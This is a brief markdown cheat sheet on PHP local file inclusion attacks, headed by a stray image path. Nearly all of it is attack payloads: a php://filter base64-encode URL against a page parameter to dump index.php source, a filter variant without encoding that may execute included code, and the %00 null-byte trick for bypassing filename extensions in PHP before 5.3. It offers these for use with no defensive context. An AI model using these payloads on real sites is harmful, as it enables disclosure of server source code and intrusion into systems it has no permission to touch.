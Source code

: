 # php LFI

## include PHP filter URL
`php://filter` case insensitive

### base 64 encode
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
php://filter/convert.base64-encode/resource=
```

### no encoding
also works with no convert encoding part - may still evaluate php code if used in `include`
```
php://filter/resource=
```

## filename extension nullbyte tecnhique - below php 5.3
%00
